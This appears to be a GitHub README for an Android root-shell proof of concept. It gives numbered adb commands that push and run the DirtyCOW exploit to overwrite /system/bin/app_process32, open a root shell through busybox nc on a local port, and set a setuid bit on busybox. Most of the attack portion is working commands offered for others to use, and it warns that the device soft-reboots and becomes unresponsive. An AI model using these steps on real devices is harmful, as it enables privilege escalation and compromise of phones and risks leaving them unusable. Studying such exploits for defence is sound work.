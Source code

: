 # Test root shell for any android phone with app-process32
Test root shell for any android phone with app-process32


This is nothing more than a test. It is a limited root shell, the test is to see how much can be done in the current contex.

to use the test
download or clone and (read the contents first is allways safer) run the one-click-root.bat
It will push 4 files to /data/local/tmp on your phone, it will use the "dirtycow" exploit to 
replace (temporarily)  the app_precess32 on /system/bin
then that will "fork" a shell as root.
next command will inject the contents of the cp_comand.txt to that shell.
proof of concept you should see you can create files as and owned by root now.

The road block from here is the contex of the root. I try to cp from /dev/block to pull recovery and boot, but get permission denied
on my samsung. On my other phone it works 

I put this in the public for hope of colaberation and further the effort.


If building from source instead of using prebuilt.

*** copy the "buildables" ***folder to the "android_external" folder in you android build enviroment.
name the folder something rememberable like "dirty-cow"

cd into your enviroment work folder

then after lunch for your device

make -j* dirtycow recowvery-app_process32

should have built binaries in the output folder, that you built.


USEAGE outside of using the scripts:

1: adb push dirtycow /data/local/tmp/dirtycow

2: adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

***** used busybox that was prebilt and did not include busybox.c , you can find git that has busybox.c and build if desired*******
3: adb push busybox /data/local/tmp/busybox

4: adb shell chmod 0777 /data/local/tmp/*

5: adb shell /data/local/tmp/dirtycow /system/bin/app_process32 /data/local/tmp/recowvery-app_process32
*** after dirty cow finishes wait about 1 minute, phone is expected to soft reboot and buttons and screen become non responsive, while adb remain connected.

6: adb shell

7: /data/local/tmp/busybox nc localhost 11112
*** this should open a promtless shell with root access, you see cpio and no cuser. You can type and see your entry

8: mkdir /data/local/test     

9: /system/bin/chmod 0777 /data/local/test

10: ls -l /data/local

11: cp /data/local/tmp/busybox /data/local/test/busybox

12: /system/bin/chmod 0777 /data/local/test/busybox

13: ls -l /data/local/test                                  

14: /system/bin/chmod +s /data/local/test/busybox           

15: ls -l /data/local/test									 shows can chmod files that are owned by root                                 

16: whoami 													shows the id of shell (root)

17: pwd 													shows the current dir

18: exit
